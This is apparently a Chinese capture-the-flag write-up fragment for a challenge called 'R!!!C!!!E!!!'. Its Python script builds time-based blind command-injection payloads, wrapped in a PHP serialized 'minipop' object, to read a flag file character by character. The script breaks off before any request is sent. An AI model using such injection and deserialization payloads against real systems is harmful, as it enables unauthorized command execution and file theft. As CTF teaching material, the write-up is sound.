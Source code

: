 ![image-20231211101804122](images/50.png)

## R!!!C!!!E!!!

![image-20231211101952974](images/51.png)

过滤了很多，这里是执行命令注入了，不是eval执行的，可以用bash盲注

```python
import time
import requests
url = "http://a2bf320a-b5fe-419b-9f01-713418159bef.node4.buuoj.cn:81/"
result = ""
for i in range(1, 15):
    for j in range(1, 50):  # ascii码表
        for k in range(32, 127):
            k = chr(k)
            payload = f"if [ `cat /flag_is_h3eeere | awk NR=={i} | cut -c {j}` == '{k}' ];then sleep 2;fi"
            length = len(payload)
            payload2 = {
                "payload": 'O:7:"minipop":2:{{s:4:"code";N;s:13:"qwejaskdjnlka";O:7:"minipop":2:{{s:4:"code";s:{0}:"{1}";s:13:"qwejaskdjnlka";N;}}}}'.format(length, payload)}
```